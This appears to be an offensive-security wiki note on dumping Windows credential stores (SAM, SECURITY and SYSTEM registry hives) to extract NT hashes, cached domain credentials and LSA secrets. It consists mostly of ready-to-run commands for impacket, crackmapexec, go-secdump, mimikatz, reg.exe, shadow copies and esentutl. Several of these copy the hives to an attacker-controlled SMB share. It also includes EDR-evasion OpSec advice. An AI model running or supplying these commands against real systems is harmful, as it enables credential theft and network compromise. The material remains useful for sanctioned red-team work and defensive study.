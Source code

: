 ```yaml
---
title: Registry Dump
---
```


[[notes/mitre-attack/credential-access|Access Credentials]] from the Windows [[notes/windows/registry]] as [[notes/windows/credential-access-admin|local admin]].
The *Security Account Manager* stores NT hashes of local users in the `SAM` registry hive.
The *Local Security Authority* stores Domain Cached Credentials (DDC) of the last ten user logons as well as plain text passwords or NT hashes of local and domain service accounts in the `SECURITY` hive.

DCC hashes are hard to crack, but you can try with a small wordlist.
See [[notes/cryptography/hash-cracking]] for details.

# Dump from Linux

Connect to the *Remote Registry* service over SMB and save the hives to a SMB share.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SAM' -o '\\attacker.corp.local\share'
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SYSTEM' -o '\\attacker.corp.local\share'
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SECURITY' -o '\\attacker.corp.local\share'
    ~~~

Connect to the *Remote Registry* service, read the boot key from the `SYSTEM` hive, save the `SAM` and `SECURITY` hives to disk and download them via SMB.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-secretsdump administrator:'passw0rd'@srv01.corp.local
    ~~~

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb srv01.corp.local --local-auth -u administrator -p 'passw0rd' --sam --lsa
    ~~~

Connect to *Remote Registry* and dump the registry hives without touching disk by temporally relaxing ACLs.

=== "[[notes/tools/go-secdump]]"
    ~~~ bash
    go-secdump -host srv01.corp.local -local -user administrator -pass 'passw0rd'
    ~~~

> **OpSec:**
>
> Some EDRs detect Impacket and CME because they access the `ADMIN$` share and write the dumps to `C:\Windows\Temp\*.tmp` ([source](http://web.archive.org/web/20230719134515/https://www.login-securite.com/2023/07/13/dpapi-dont-put-administration-passwords-in/)).
>
> A few EDRs detect remote access to `SAM` even without this indicators.
> In this case you can try to run any of the Windows builtins remotely instead of relying on the *Remote Registry*.

Dump the `SAM` hive trough local registry access to a SMB share.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-atexec -silentcommand administrator:'passw0rd'@srv01.corp.local 'reg.exe save hklm\sam \\attacker.corp.local\share\%COMPUTERNAME%-sam.save'
    ~~~

# Dump on Windows

Save registry hives directly to a SMB share.

=== "reg.exe"
    ~~~ bat
    reg.exe save hklm\sam \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    reg.exe save hklm\security \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    reg.exe save hklm\system \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

Copy registry hives from a [[notes/windows/shadow-copy]] to a SMB share.

=== "cmd.exe"
    ~~~ bat
    vssadmin.exe list shadows
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\security \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

=== "esentutl.exe"
    ~~~ bat
    esentutl.exe /y /vss C:\Windows\System32\config\sam /d \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    esentutl.exe /y /vss C:\Windows\System32\config\security /d \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    esentutl.exe /y /vss C:\Windows\System32\config\system /d \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

Parse hives in memory without touching disk.

=== "[[notes/tools/mimikatz]]"
    ~~~
    mimikatz.exe token::elevate lsadump::sam lsadump::secrets exit
    ~~~

Untested tools:

- [RegSave](https://github.com/EncodeGroup/RegSave)

# Extract on Linux

=== "[[notes/tools/pypykatz]]"
    ~~~ bash
    pypykatz registry --json ./system.save --sam ./sam.save --security ./security.save
    ~~~

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-secretsdump -sam ./sam.save -security ./security.save -system ./system.save LOCAL
    ~~~
